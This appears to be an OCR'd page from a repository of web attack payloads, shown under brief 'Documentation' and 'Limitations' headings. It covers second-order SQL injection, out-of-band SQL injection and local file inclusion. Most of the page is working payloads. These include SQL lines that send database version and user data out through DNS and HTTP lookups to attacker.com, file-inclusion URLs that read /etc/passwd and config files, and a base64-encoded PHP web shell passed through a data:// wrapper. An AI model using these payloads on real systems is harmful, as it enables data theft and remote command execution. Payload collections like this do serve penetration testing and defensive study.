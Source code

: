 **Documentation**: Persistent and DOM-based XSS attacks for long-term compromise and client-side exploitation.
**Limitations**: Input validation and output encoding prevent XSS; CSP provides additional protection.

## Advanced SQL Injection Techniques

### Second-Order SQL Injection
```sql
-- Registration Phase (First Request)
Username: admin'--
Password: password123

-- Login Phase (Second Request)
-- The malicious payload from registration is executed during login
SELECT * FROM users WHERE username = 'admin'-- ' AND password = 'password123'
```

**Documentation**: Complex SQL injection that executes across multiple requests and database operations.
**Limitations**: Requires understanding of application workflow; harder to detect and exploit.

### Out-of-Band SQL Injection
```sql
-- DNS Exfiltration (MySQL)
'; SELECT LOAD_FILE(CONCAT('\\\\',VERSION(),'.attacker.com\\test'))-- -

-- HTTP Exfiltration (SQL Server)
'; EXEC xp_dirtree CONCAT('\\\\',USER,'.attacker.com\\test')-- -

-- Oracle Out-of-Band
'; SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT user FROM dual)||'.attacker.com/"> %remote;]>'),'/l') FROM dual-- -
```

**Documentation**: SQL injection techniques that use external channels for data exfiltration.
**Limitations**: Requires external network access; firewalls may block outbound connections.

## Directory Traversal and File Inclusion

### Local File Inclusion (LFI) Payloads
```php
// Basic LFI
http://example.com/page.php?file=../../../etc/passwd
http://example.com/page.php?file=....//....//....//etc/passwd

// PHP Wrapper LFI
http://example.com/page.php?file=php://filter/convert.base64-encode/resource=../config.php
http://example.com/page.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+

// Log Poisoning LFI
http://example.com/page.php?file=../../../var/log/apache2/access.log
# After injecting PHP code in User-Agent header

// Null Byte Bypass (older PHP versions)
http://example.com/page.php?file=../../../etc/passwd%00.jpg
```

